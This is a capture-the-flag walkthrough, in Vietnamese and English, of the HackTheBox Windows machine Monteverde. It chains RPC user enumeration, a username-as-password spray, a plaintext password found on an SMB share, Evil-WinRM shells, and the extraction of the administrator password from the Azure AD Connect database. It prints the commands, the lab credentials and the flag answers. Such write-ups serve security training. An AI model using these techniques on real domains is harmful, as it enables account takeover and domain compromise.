# HackTheBox — Monteverde | Full Walkthrough

> **Machine:** Monteverde
> **Difficulty:** Medium (Windows — Active Directory)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [RPC Enumeration — User Discovery](#3-rpc-enumeration--user-discovery)
4. [Password Spray — Username as Password](#4-password-spray--username-as-password)
5. [SMB Enumeration — azure_uploads & users$ Share](#5-smb-enumeration--azure_uploads--users-share)
6. [Credential Discovery — azure.xml](#6-credential-discovery--azurexml)
7. [Initial Access — Evil-WinRM as mhope](#7-initial-access--evil-winrm-as-mhope)
8. [User Flag](#8-user-flag)
9. [BloodHound — Attack Path Discovery](#9-bloodhound--attack-path-discovery)
10. [Privilege Escalation — Azure AD Connect Credential Extraction](#10-privilege-escalation--azure-ad-connect-credential-extraction)
11. [Administrator Access — Evil-WinRM](#11-administrator-access--evil-winrm)
12. [Root Flag](#12-root-flag)
13. [Flags & Answers Summary](#13-flags--answers-summary)
14. [Attack Chain Summary](#14-attack-chain-summary)
15. [Tools Used](#15-tools-used)

---

## 1. Overview

**Monteverde** là machine Windows Medium trên HackTheBox, kết hợp Active Directory với **Azure AD Connect**. Attack path bắt đầu từ RPC null session để liệt kê users, sau đó **password spray** với username=password phát hiện tài khoản `SABatchJobs:SABatchJobs`. Từ SMB share `users$`, tìm file `azure.xml` chứa plaintext password của `mhope`. Sau khi vào được shell, **BloodHound** cho thấy `mhope` là thành viên group **Azure Admins** và máy chủ chạy **Azure AD Connect**. Khai thác lỗ hổng trong ADSync để extract credentials của `administrator` từ database đồng bộ.

```
Recon → RPC null session → user list → password spray → SABatchJobs:SABatchJobs
→ SMB users$ → mhope/azure.xml → 4n0therD4y@n0th3r$
→ Evil-WinRM mhope → BloodHound → Azure Admins → Azure AD Connect
→ Azure-ADConnect.ps1 → ADSync DB → administrator:d0m@in4dminyeah!
→ Evil-WinRM administrator → root
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.228.111` |
| Machine Name | `MONTEVERDE` |
| Domain | `MEGABANK.LOCAL` |
| OS | Windows Server 2019 |
| Key Ports | 53, 88, 135, 139, 389, 445, 5985 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

```bash
nmap -Pn -p- --min-rate 5000 10.129.228.111
```



Đặc trưng Windows Domain Controller đầy đủ:

| Port | Service |
|---|---|
| 53 | DNS |
| 88 | Kerberos |
| 135 / 593 | MSRPC |
| 139 / 445 | SMB |
| 389 / 636 | LDAP / LDAPS |
| 464 | kpasswd5 |
| 3268 / 3269 | Global Catalog LDAP |
| **5985** | **WinRM** |
| 9389 | ADWS |

### 2.2 Service & Script Scan

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.129.228.111
```



Thông tin quan trọng:

| Detail | Value |
|---|---|
| Hostname | `MONTEVERDE` |
| Domain | `MEGABANK.LOCAL` |
| OS | Windows Server 2019 (97%) |
| SMB Signing | Enabled and Required |
| Port 9389 | `.NET Message Framing` — Azure AD Web Services |

> **Port 9389 (mc-nmf / .NET Message Framing)** là dấu hiệu của **Azure AD Connect / ADSync service** đang chạy trên máy này — thông tin rất quan trọng cho giai đoạn sau.

---

## 3. RPC Enumeration — User Discovery

### 3.1 RPC Null Session

```bash
rpcclient -U "" -N 10.129.228.111
rpcclient $> enumdomusers
```



Null session thành công — phát hiện **10 domain users**:

| Username | RID | Notes |
|---|---|---|
| Guest | 0x1f5 | Disabled guest |
| **AAD_987d7f2f57d2** | 0x450 | **Azure AD Sync account** |
| mhope | 0x641 | Regular user |
| **SABatchJobs** | 0xa2a | **Service account — target** |
| svc-ata | 0xa2b | Service account |
| svc-bexec | 0xa2c | Service account |
| svc-netapp | 0xa2d | Service account |
| dgalanos | 0xa35 | Regular user |
| roleary | 0xa36 | Regular user |
| smorgan | 0xa37 | Regular user |

> 💡 **`AAD_987d7f2f57d2`** là tài khoản built-in của **Azure AD Connect** — xác nhận AD Sync đang chạy trên máy này. `SABatchJobs` và các `svc-*` là service accounts — thường có password yếu hoặc dùng username làm password.

---

## 4. Password Spray — Username as Password

Tạo file `users.txt` từ danh sách user và thử **password spray** với username=password:

```bash
netexec smb 10.129.228.111 -u users.txt -p users.txt --no-bruteforce
```



```
SMB  10.129.228.111  445  MONTEVERDE  [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
SMB  10.129.228.111  445  MONTEVERDE  [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
SMB  10.129.228.111  445  MONTEVERDE  [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE
SMB  10.129.228.111  445  MONTEVERDE  [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

> 🎯 **Password spray thành công: `SABatchJobs` / `SABatchJobs`**
>
> Service account dùng chính username làm password — lỗi cấu hình phổ biến khi deploy automated batch job accounts.

---

## 5. SMB Enumeration — azure_uploads & users$ Share

### 5.1 List Shares với SABatchJobs

```bash
netexec smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs' --shares
```



| Share | Permission | Notes |
|---|---|---|
| ADMIN$ | — | No access |
| **azure_uploads** | **READ** | **Azure-related uploads** |
| C$ | — | No access |
| E$ | — | No access |
| IPC$ | READ | Standard |
| NETLOGON | READ | Standard |
| SYSVOL | READ | Standard |
| **users$** | **READ** | **User home directories** |

> 🎯 Hai share đáng chú ý: `azure_uploads` (liên quan Azure) và `users$` (home directories của users).

### 5.2 Browse users$ Share

```bash
smbclient //10.129.228.111/users$ -U 'MEGABANK.LOCAL\SABatchJobs%SABatchJobs'
smb: \> ls
smb: \> cd mhope
smb: \mhope\> ls
```



```
dgalanos    D    0  Fri Jan  3 08:12:30 2020
mhope       D    0  Fri Jan  3 08:41:18 2020
roleary     D    0  Fri Jan  3 08:10:30 2020
smorgan     D    0  Fri Jan  3 08:10:24 2020

smb: \mhope\> ls
azure.xml   AR   1212   Fri Jan  3 08:40:23 2020
```

> 🎯 Trong thư mục home của `mhope` có file **`azure.xml`** — 1212 bytes, ngày tạo Jan 3 2020.

---

## 6. Credential Discovery — azure.xml

Tải và đọc nội dung `azure.xml`:

```bash
get azure.xml
cat azure.xml
```



```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
    </TN>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

> 🎯 **Plaintext password lộ trong file XML!**
> - **Type:** `PSADPasswordCredential` — Azure AD Service Principal credential
> - **Password:** `4n0therD4y@n0th3r$`
> - File này là output của lệnh PowerShell `New-AzADServicePrincipal` hoặc tương tự, bị để lại trong home directory của mhope.

---

## 7. Initial Access — Evil-WinRM as mhope

```bash
evil-winrm -i 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'
```



```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\mhope\Documents>
```

> 🎯 **Shell thành công với mhope!**

---

## 8. User Flag

```powershell
cd Desktop
cat user.txt
```

```
6ddeca8bbb878e481b7db30763b38c70
```

> 🚩 **user.txt (User Flag):** `6ddeca8bbb878e481b7db30763b38c70`

---

## 9. BloodHound — Attack Path Discovery

### 9.1 Kiểm Tra Group Membership

```powershell
net user mhope /domain | findstr "Group"
```



```
Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins    *Domain Users
```

> `mhope` là thành viên **Azure Admins** — group này có quyền truy cập vào Azure AD Connect service.

### 9.2 BloodHound — mhope CanPSRemote



BloodHound xác nhận: `mhope` có **CanPSRemote** đến `MONTEVERDE.MEGABANK.LOCAL` — đây là lý do Evil-WinRM hoạt động.

### 9.3 BloodHound — MONTEVERDE → DCSync → MEGABANK.LOCAL



**Computer object `MONTEVERDE`** có quyền **DCSync** trên domain `MEGABANK.LOCAL` — đây là cấu hình mặc định cho máy chạy **Azure AD Connect**. Machine account của DC cần DCSync để sync passwords lên Azure AD.

### 9.4 BloodHound — Azure Admins Members



Group **Azure Admins** gồm: `Administrator`, `AAD_987D7F2F57D2`, và `mhope`.

> 💡 **Attack strategy:** Azure AD Connect lưu credentials của `administrator` trong database ADSync (SQL Server LocalDB). Với tư cách Azure Admin, `mhope` có quyền đọc database này và extract credentials bằng script exploit.

---

## 10. Privilege Escalation — Azure AD Connect Credential Extraction

### 10.1 Upload và Chạy Azure-ADConnect.ps1

Upload script exploit `Azure-ADConnect.ps1` (by Luis Vacas / CyberVaca) vào máy qua Evil-WinRM:

```powershell
upload /home/vodanhtieutot/tool_AD/Azure-ADConnect.ps1
Import-Module .\Azure-ADConnect.ps1
Azure-ADConnect -server localhost -db ADSync
```

![Evil-WinRM upload Azure-ADConnect.ps1 → Import-Module → Azure-ADConnect -server localhost -db ADSync → [+] Domain: MEGABANK.LOCAL, [+] Username: administrator, [+] Password: d0m@in4dminyeah!](images/image13.png)

```
Info: Uploading Azure-ADConnect.ps1 to C:\Users\mhope\Documents\Azure-ADConnect.ps1
Data: 3016 bytes of 3016 bytes copied
Info: Upload successful!

*Evil-WinRM* PS> Import-Module .\Azure-ADConnect.ps1
*Evil-WinRM* PS> Azure-ADConnect -server localhost -db ADSync

[+] Domain:   MEGABANK.LOCAL
[+] Username: administrator
[+] Password: d0m@in4dminyeah!
```

> 🎯 **Azure AD Connect credentials extracted!**
> - **Username:** `administrator`
> - **Password:** `d0m@in4dminyeah!`

**Azure AD Connect Credential Extraction hoạt động như thế nào:**

Azure AD Connect lưu credentials của **MSOL service account** (dùng để sync passwords) trong SQL Server LocalDB tại `C:\Users\ADSyncAdmin\AppData\...\ADSync.mdf`. Credentials được mã hóa bằng DPAPI với key được lưu trong SQL database. Script `Azure-ADConnect.ps1` kết nối trực tiếp đến ADSync database, query encrypted credentials, decrypt bằng DPAPI, và trả về plaintext.

Vì `administrator` là account được cấu hình để thực hiện AD synchronization (với quyền DCSync), password của nó được lưu trong ADSync database và có thể extract bởi bất kỳ ai có quyền đọc database — bao gồm **Azure Admins**.

---

## 11. Administrator Access — Evil-WinRM

```bash
evil-winrm -i 10.129.228.111 -u 'administrator' -p 'd0m@in4dminyeah!'
```



```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> 🎯 **Administrator shell thành công!**

---

## 12. Root Flag

```powershell
cd C:\Users\Administrator\Desktop
cat root.txt
```

```
ab0130faa6dfaed96aeea7d8e6daa25f
```

> 🚩 **root.txt (Root Flag):** `ab0130faa6dfaed96aeea7d8e6daa25f`

---

## 13. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\mhope\Desktop\user.txt` | `6ddeca8bbb878e481b7db30763b38c70` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `ab0130faa6dfaed96aeea7d8e6daa25f` |

---

## 14. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → DC ports + port 9389 (.NET Message Framing) → Azure AD Connect hint

[2] Nmap -sC -sV -A
        → MEGABANK.LOCAL, MONTEVERDE, Windows Server 2019
        → WinRM (5985) mở

[3] rpcclient -U "" -N → enumdomusers
        → Guest, AAD_987d7f2f57d2, mhope, SABatchJobs,
          svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, smorgan
        → AAD_* account → xác nhận Azure AD Connect đang chạy

[4] netexec smb 10.129.228.111 -u users.txt -p users.txt --no-bruteforce
        → [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
        → Username = Password (weak service account config)

[5] netexec smb --shares -u SABatchJobs -p SABatchJobs
        → azure_uploads (READ), users$ (READ) — non-standard shares

[6] smbclient //10.129.228.111/users$ -U MEGABANK.LOCAL\SABatchJobs%SABatchJobs
        → ls: dgalanos, mhope, roleary, smorgan
        → cd mhope → azure.xml (1212 bytes)

[7] cat azure.xml
        → PSADPasswordCredential
        → Password: 4n0therD4y@n0th3r$ (plaintext!)

[8] evil-winrm -i 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$'
        → Shell as mhope
        → cat user.txt → user flag ✓

[9] net user mhope /domain | findstr "Group"
        → Azure Admins, Remote Management Use

[10] BloodHound analysis
        → mhope → CanPSRemote → MONTEVERDE (xác nhận WinRM path)
        → MONTEVERDE computer → DCSync → MEGABANK.LOCAL
        → Azure Admins members: Administrator, AAD_987D7F2F57D2, mhope

[11] upload Azure-ADConnect.ps1
     Import-Module .\Azure-ADConnect.ps1
     Azure-ADConnect -server localhost -db ADSync
        → [+] Username: administrator
        → [+] Password: d0m@in4dminyeah!

[12] evil-winrm -i 10.129.228.111 -u administrator -p 'd0m@in4dminyeah!'
        → Administrator shell ✓
        → cat root.txt → root flag ✓
```

---

## 15. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `rpcclient` | RPC null session — enumerate domain users |
| `netexec` | Password spray (username=password) & SMB share enumeration |
| `smbclient` | Browse users$ share, download azure.xml |
| `evil-winrm` | WinRM remote shell (mhope & administrator) |
| **BloodHound** | AD attack path visualization |
| **SharpHound** | BloodHound data collector |
| `net user` (PowerShell) | Check group memberships |
| **Azure-ADConnect.ps1** | Extract credentials từ Azure AD Connect ADSync database |
